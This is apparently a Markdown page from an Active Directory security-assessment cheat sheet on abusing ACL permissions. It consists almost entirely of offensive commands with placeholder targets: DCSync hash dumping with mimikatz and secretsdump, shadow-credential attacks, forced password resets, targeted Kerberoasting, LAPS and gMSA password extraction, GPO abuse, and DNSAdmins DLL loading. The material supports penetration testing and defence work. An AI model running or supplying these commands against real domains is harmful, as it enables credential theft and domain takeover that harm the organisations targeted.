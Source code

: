 ```yaml
---
title: "ACLs/ACEs permissions"
description: "ACLs/ACEs permissions techniques and commands for Active Directory security assessment."
---
```

# ACLs/ACEs permissions
## Dcsync *Domain Admin || Lateral move || Crack hash*{: .highlight}
- Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `secretsdump.py '<domain>'/'<user>':'<password>'@'<domain_controller>'`

## can change msDS-KeyCredentialLInk (Generic Write) + ADCS *PassTheCertificate*{: .highlight}

- Shadow Credentials
  - `certipy shadow auto '-u <user>@<domain>' -p <password> -account '<target_account>'`
  - `pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"`

## On Group
- GenericAll/GenericWrite/Self/Add Extended Rights
  - Add member to the group
- Write Owner
  - Grant Ownership
- WriteDACL + WriteOwner
  - Grant rights
    - Give yourself generic all

## On Computer
- GenericAll / GenericWrite
  - msDs-AllowedToActOnBehalf *RBCD*{: .highlight}
  - add Key Credentials *shadow credentials*{: .highlight}

## On User
- GenericAll / GenericWrite
  - Change password
    - `net user <user> <password> /domain` *User with clear text pass*{: .highlight}
  - add SPN (target kerberoasting)
    - `targetedKerberoast.py -d <domain> -u <user> -p <pass>` *Hash found (TGS)*{: .highlight}
  - add key credentials *shadow credentials*{: .highlight}
  - login script *Access*{: .highlight}
- ForceChangePassword
  - `net user <user> <password> /domain` *User with clear text pass*{: .highlight}

## On OU
- Write Dacl
  - ACE Inheritance
    - Grant rights
- GenericAll / GenericWrite / Manage Group Policy Links
  - `OUned.py --config config.ini`

## ReadGMSAPassword
- `gMSADumper.py -u '<user>' -p '<password>' -d '<domain>'`
- `nxc ldap <ip> -u <user> -p <pass> --gmsa`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldaps://<dc_ip> gmsa`

## Get LAPS passwords
- Who can read LAPS
  - `MATCH p=(g:Base)-[:ReadLAPSPassword]->(c:Computer) RETURN p`
- Read LAPS *Admin*{: .highlight}
  - `Get-LapsADPassword -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize`
  - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> laps`
  - `foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}`
  - `nxc ldap <dc_ip> -d <domain> -u <user> -p <password> --module laps`
  - `msf> use post/windows/gather/credentials/enum_laps`

## GPO
- Who can control GPOs
  - `MATCH p=((n:Base)-[]->(gp:GPO)) RETURN p`
- SID of principals that can create new GPOs in the domain
  - `Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=blah,DC=com" -ResolveGUIDs  | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
- Return the principals that can write to the GP-Link attribute on OUs
  - `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl`
- Generic Write on  GPO
  - Abuse GPO *ACCESS*{: .highlight}

## DNS Admin
- DNSadmins abuse (CVE-2021-40469) @CVE@ *Admin*{: .highlight}
  - `dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user`
  - `sc \\DNSServer stop dns sc \\DNSServer start dns`